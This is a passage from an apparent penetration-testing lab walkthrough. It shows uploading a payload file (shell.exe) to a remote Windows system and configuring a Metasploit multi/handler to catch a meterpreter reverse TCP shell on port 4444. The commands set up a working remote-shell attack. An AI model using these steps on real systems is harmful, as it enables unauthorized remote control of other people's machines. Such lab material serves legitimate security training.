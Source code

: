 5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running the commands.](Images/multihandler.PNG)
